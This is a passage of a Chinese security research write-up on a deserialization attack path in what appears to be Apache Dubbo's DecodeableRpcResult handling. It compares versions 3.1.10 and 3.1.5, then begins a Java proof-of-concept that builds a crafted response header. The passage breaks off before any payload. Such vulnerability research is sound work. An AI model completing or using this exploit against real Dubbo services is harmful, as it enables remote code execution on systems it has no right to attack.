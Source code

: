 而对于 3.1.10 版本，`getRequestData` 方法如果获取不到 `future` 会直接抛出异常，进而无法创建出有效的 `DecodeableRpcResult` 实例。  
[![](assets/1703064279-cda034224f77c1da8af7bc7b03dfe4d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144004-7140a1bc-9e39-1.png)  
进而，后续 `message` 参数会由于是 null 而直接返回。  
[![](assets/1703064279-345528adf178318f562fd6daf4e5af6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144025-7dae45e4-9e39-1.png)  
这里给出 3.1.5 版本下的测试 POC 核心部分：

```plain
public static void main(String[] args) throws Exception {

        ByteArrayOutputStream boos = new ByteArrayOutputStream();
        ByteArrayOutputStream nativeJavaBoos = new ByteArrayOutputStream();
        Serialization serialization = new NativeJavaSerialization();
        NativeJavaObjectOutput out = new NativeJavaObjectOutput(nativeJavaBoos);

        // header.
        byte[] header = new byte[HEADER_LENGTH];
        // set magic number.
        Bytes.short2bytes(MAGIC, header);
        // set request and serialization flag.
        header[2] = serialization.getContentTypeId();

        header[3] = Response.OK;
        Bytes.long2bytes(1, header, 4);

        // result
```